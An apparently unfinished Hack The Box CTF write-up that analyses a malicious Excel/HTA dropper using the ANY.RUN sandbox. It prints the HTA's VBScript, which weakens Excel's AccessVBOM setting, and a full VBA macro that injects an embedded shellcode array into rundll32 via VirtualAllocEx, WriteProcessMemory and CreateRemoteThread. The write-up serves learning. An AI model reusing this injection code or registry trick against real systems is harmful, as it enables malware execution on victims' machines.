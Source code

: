 ```yaml
---
title: HTB write up for the oBfsC4t10n[HARD] challenge
subtitle: security through obscurity?
description: write up for the oBfsC4t10n[HARD] challenge
published: true
datePublished: 1611316432536
author: lwlx
authorTwitter: "0x0000005"
authorPhoto: /profile.jpg
tags:
  - ctf
  - writeup
  - hackthebox
  - oBfsC4t10n
  - htb
  - security
thumbnailPhoto: /htb/htb-obfuscation.jpg
bannerPhoto: /htb/htb-obfuscation.jpg
canonicalUrl:
---
```


# oBfsC4t10n _[HARD]_ `(WIP)`

This is my Write Up for the "oBfsC4t10n" challenge from Hack The Box.

We are given a _zip file_. after extraction we are presented with an **html** file telling us to download an **excel file**.
The excel file has been included in the html as a **base64 encoded** string, lets just save that info for later `base64.txt` in case we need it.

> decoding `base64.txt` actually gives us a valid excel like file.

After we checked the HTML and deemed the download save lets fetch the excel file.

## Enumeration

Instead of trying to open or analyze the file on our own machine, lets go ahead and upload it to **ANY.RUN**.

> [https://ANY.RUN](https://ANY.RUN) is a **online Sandbox** service that allows you to open various suspicious files or programms to fully analyze what would happen, without the danger.

After Testing the file with **ANY.RUN** we were able to see how the exploit would work and what would be done. So we tested on a **Windows 7** Machine, after opening the file, the exploit imediately startet to run:

> 1. At first a temp file was created under `C:\Users\admin\AppData\Local\Temp\CVR40EB.tmp.cvr`
> 2. Then a what seems to be `visual basic script` executer was added here: `C:\Users\admin\AppData\Local\Temp\VBE\MSForms.exd`
> 3. followed by a `.hta` file with a funny name..: `C:\Users\admin\AppData\Local\Temp\LwTHLrGh.hta` <-- lemme guess thats the one.
> 4. it then makes use of `mshta.exe` to try and execute the `LwTHLrGh.hta` file.
> 5. then ANY.RUN stops executing the file.

I went ahead and _downloaded_ the `MSForms.exd` as well as the `LwTHLrGh.hta` file so we can analyze them further.

## Analyzing `LwTHLrGh.hta`

> .hta is a propriatary file format used by microsoft, its called '**HT**ML **A**pplication' and supports HTML code as well as **Visual Basic** or **JScript**. This format was meant to be used by Internet Explorer.
>
> The **default file-association** for the .hta extension is the Microsoft HTML Application Host (**mshta.exe**). If you have not disabled or changed this file association, in effect the HTA file behaves like an executable when double-clicked. An **HTA runs** as a **fully trusted application** and as a result has a lot **more privileges than a normal HTML** file.

Sounds dangerous, nice!

So lets disect this bitch!

When opening the file we see it has a rather clear structure, a huge VB Script and **even comments**. How nice of the hacker not to obfuscate his code too much, thanks [@0xdf](https://twitter.com/0xdf_). ;-)

```jsx
"<html><head>

<script language="vbscript">

<!-- VB script here -->

</script></head></html>"
```

so naturally, since its practiacally all the code, we strip the vbcode out of the .hta to make it readable.

Thank god we know VB, otherwise this would be a pain from here on now. ;-) Thankfully, since the autor has left some comments, indicating how the attack works, we should be able to cope with it.

The very first thing he does is effectively creating a backup of the AccessVBOM key **if** it has been set before.

```vb
' Get the old AccessVBOM value
RegPath = "HKEY_CURRENT_USER\Software\Microsoft\Office\" & objExcel.Version & "\Excel\Security\AccessVBOM"

if RegExists(RegPath) then
        action = WshShell.RegRead(RegPath)
else
        action = """"
end if
```

> "_Setting AccessVBOM to 1 allows to access the VBA Object Model_"

Then he 'weakens the target' by setting the AccessVBOM to 1, thus enabling all acces to VBA Object Model.

```VB
' Weaken the target
WshShell.RegWrite RegPath, 1, "REG_DWORD"
```

Then he gets to the juicy part.
To Exploit the Security setting he just turned off, he creates a new Excel Workboo, with macros of course.
He then proceeds to add VBComponents to the Excel, allowing him to add an Assembly Code Module.

```VB
' Run the macro
Set objWorkbook = objExcel.Workbooks.Add()
Set xlmodule = objWorkbook.VBProject.VBComponents.Add(1)
xlmodule.CodeModule.AddFromString ... 80 more lines...

```

In his last step this good boy restores the systems registry to its previous state.

```vb
' Restore the registry to its old state
if action = "" then
        WshShell.RegDelete RegPath
else
        WshShell.RegWrite RegPath, action, "REG_DWORD"
end if
self.close
```

> xlmodule.CodeModule.AddFromString contains many obfuscated lines of assembly code, I deobfuscated it by printing it via VBS.

Here is the actualy assembly code payload:

```cpp
Private Type PROCESS_INFORMATION
    hProcess As Long
    hThread As Long
    dwProcessId As Long
    dwThreadId As Long
End Type

Private Type STARTUPINFO
    cb As Long
    lpReserved As String
    lpDesktop As String
    lpTitle As String
    dwX As Long
    dwY As Long
    dwXSize As Long
    dwYSize As Long
    dwXCountChars As Long
    dwYCountChars As Long
    dwFillAttribute As Long
    dwFlags As Long
    wShowWindow As Integer
    cbReserved2 As Integer
    lpReserved2 As Long
    hStdInput As Long
    hStdOutput As Long
    hStdError As Long
End Type

#If VBA7 Then
    Private Declare PtrSafe Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As LongPtr
    Private Declare PtrSafe Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
    Private Declare PtrSafe Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As LongPtr, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As LongPtr) As LongPtr
    Private Declare PtrSafe Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#Else
    Private Declare Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As Long
    Private Declare Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
    Private Declare Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As Long, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As Long) As Long
    Private Declare Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDriectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#End If

Sub Auto_Open()
    Dim myByte As Long, myArray As Variant, offset As Long
    Dim pInfo As PROCESS_INFORMATION
    Dim sInfo As STARTUPINFO
    Dim sNull As String
    Dim sProc As String

#If VBA7 Then
    Dim rwxpage As LongPtr, res As LongPtr
#Else
    Dim rwxpage As Long, res As Long
#End If
    myArray = Array(-35,-63,-65,32,86,66,126,-39,116,36,-12,91,49,-55,-79,98,49,123,24,3,123,24,-125,-61,36,-76,-73,-126,-52,-70,56,123,12,-37,-79,-98,61,-37,-90,-21,109,-21,-83,-66,-127,-128,-32,42,18,-28,44,92,-109,67,11,83,36,-1,111,-14,-90,2,-68,-44,-105,-52,-79,21,-48,49,59,71,-119,62,-18,120,-66,11,51,-14,-116,-102,51,-25,68,-100,18,-74,-33,-57,-76,56,12,124,-3,34,81,-71,-73,-39,-95,53,70,8,-8,-74,-27,117,53,69,-9,-78,-15,-74,-126,-54,2,74,-107,8,121,-112,16,-117,-39,83,-126,119,-40,-80,85,-13,-42,125,17,91,-6,-128,-10,-41,6,8,-7,55,-113,74,-34,-109,-44,9,127,-123,-80,-4,-128,-43,27,-96,36,-99,-79,-75,84,-4,-35,122,85,-1,29,21,-18,-116,47,-70,68,27,3,51,67,-36,100,110,51,114,-101,-111,68,90,95,-59,20,-12,118,102,-1,4,119,-77,80,85,-41,108,17,5,-105,-36,-7,79,24,2,25,112,-13,43,50,-88,-5,83,-61,-46,-115,58,-81,49,21,-46,66,43,-68,66,-77,-59,81,-76,-125,77,-17,-79,116,94,-80,2,72,-22,17,-7,-58,33,-14,113,127,119,127,26,76,37,2,-38,-38,96,-44,-18,-102,-116,-15,-124,-37,110,-109,-112,-117,-26,97,-91,42,76,-20,67,70,-94,-72,-36,-1,91,-31,-105,-98,-92,60,-46,-95,47,-76,34,111,-40,-67,48,-104,-65,61,-55,89,42,61,-93,93,-4,106,91,92,-39,92,-60,-97,12,-33,3,95,-47,-23,120,86,71,85,23,-105,-121,85,-25,-63,-51,85,-113,-75,-75,6,-86,-71,99,59,103,44,-116,109,-37,-25,-28,-109,2,-49,-86,108,97,83,-84,-110,-9,124,21,-6,7,61,-91,-6,109,-67,-11,-110,122,-110,-6,82,-126,57,83,-6,9,-84,17,-101,14,-27,-12,5,14,10,45,-74,117,95,-46,55,-118,-119,-73,56,-118,-75,-55,5,92,-116,-65,72,92,-85,-80,-1,-63,-102,90,-1,86,-36,78)
    If Len(Environ("ProgramW6432")) > 0 Then
        sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
    Else
        sProc = Environ("windir") & "\\System32\\rundll32.exe"
    End If

    res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

    rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
    For offset = LBound(myArray) To UBound(myArray)
        myByte = myArray(offset)
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```

You can see the Variable myArray seems suspicous, when running the payload in Excel I get an error for 'myArray'

Im stuck here at the moment... I was told i would not need windows..

@ me on twitter [@0x0000005](https://twitter.com/0x0000005)

> This Post is marked as `WIP` and will be updated continously.
